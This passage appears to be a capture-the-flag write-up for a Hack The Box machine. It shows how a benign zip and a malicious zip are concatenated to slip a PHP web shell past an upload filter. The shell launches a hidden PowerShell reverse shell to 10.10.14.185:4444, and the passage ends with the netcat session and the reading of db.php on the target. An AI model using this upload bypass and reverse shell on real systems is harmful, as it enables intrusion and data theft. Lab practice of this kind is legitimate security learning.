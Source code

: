 ### File Creation

```bash
echo "Hi zenon" > zenon.pdf
mkdir exploit
mv zenon.pdf exploit
cd exploit
zip benign.zip zenon.pdf
```

### Create Malicious Zip

```php
// zenon.php
<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('10.10.14.185',4444); ...\"");
?>
```

```bash
mkdir malicious
cp zenon.php malicious/
zip -r malicious.zip malicious/
cat benign.zip malicious.zip > zenon.zip
```

### Start Listener

```bash
nc -lnvp 4444
```

>  Reverse shell triggered when uploading `zenon.zip`

```sh
$ nc -lnvp 4444                                 
listening on [any] 4444 ...
connect to [10.10.14.185] from (UNKNOWN) [10.10.11.71] 60158

PS C:\xampp\htdocs\certificate.htb\static\uploads\c8164902a732f2975e80b5d849a3d56e\malicious> ls


    Directory: C:\xampp\htdocs\certificate.htb\static\uploads\c8164902a732f2975e80b5d849a3d56e\malicious


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         6/3/2025   2:40 PM            589 zenon.php                                                             

PS C:\xampp\htdocs\certificate.htb> type db.php
```
